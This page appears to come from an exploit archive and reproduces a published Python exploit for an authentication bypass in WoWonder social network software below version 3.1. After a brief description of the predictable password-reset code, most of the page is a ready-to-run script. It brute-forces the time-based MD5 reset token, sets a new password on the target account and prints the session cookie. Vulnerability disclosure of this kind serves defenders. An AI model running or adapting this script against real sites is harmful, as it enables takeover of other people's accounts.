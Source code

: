 <languages />

Affected Versions
-----------------

Version: \< 3.1

EXP
---

    # Exploit Title: WoWonder Social Network Platform 3.1 - Authentication Bypass
    # Date: 11.06.2021
    # Exploit Author: securityforeveryone.com
    # Researchers : Security For Everyone Team - https://securityforeveryone.com
    # Vendor Homepage: https://www.wowonder.com/
    # Software Link: https://codecanyon.net/item/wowonder-the-ultimate-php-social-network-platform/13785302
    # Version: < 3.1
    # Tested on: Linux/Windows

    '''
    DESCRIPTION

    In WoWonder < 3.1, remote attackers can take over any account due to the weak cryptographic algorithm in recover.php. The code parameter is easily predicted from the time of day.
    The vulnerability is found the "code" parameter in password reset link. The password reset code can be estimated by combining the password reset link time and the random value generated between 111 and 999.
    if an attacker exploits this vulnerability, attacker may access all accounts in WoWonder application.

    ABOUT SECURITY FOR EVERYONE TEAM

    We are a team that has been working on cyber security in the industry for a long time.
    In 2020, we created securityforeveyone.com where everyone can test their website security and get help to fix their vulnerabilities.
    We have many free tools that you can use here: https://securityforeveryone.com/tools/free-security-tools
    '''

    import requests
    import email.utils as eut
    import calendar, time;
    import hashlib, re;

    url = "http://wowonderlab:80/wowonder/" #change this with your target
    myheaders = {"X-Requested-With": "XMLHttpRequest", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Connection": "close"}
    recoverdata = {"recoveremail": "wowondertest@securityforeveryone.com"}  #change this email with your registered wowonder email address
    req = requests.post(url+"requests.php?f=recover", headers=myheaders, data=recoverdata)
    b = eut.parsedate(req.headers["Date"])
    respepoch = calendar.timegm(time.strptime("{0}-{1}-{2} {3}:{4}:{5}".format(b[0],b[1],b[2],b[3],b[4],b[5]), '%Y-%m-%d %H:%M:%S'))

    for token in range(111,1000):
        str2hash = "{0}{1}".format(token,respepoch)
        email_code = hashlib.md5(str2hash.encode()).hexdigest()

        req_reset = requests.get(url+"index.php?link1=reset-password&code=1_{0}".format(email_code))
        if len(re.findall("New password",req_reset.text)) == 1:
            print(email_code)
            resetdata = {"password": "10711071", "id": "1_"+email_code}
            reqtoken = requests.post(url+"requests.php?f=reset_password", headers=myheaders, data=resetdata)
            print(reqtoken.headers['Set-Cookie'])
            break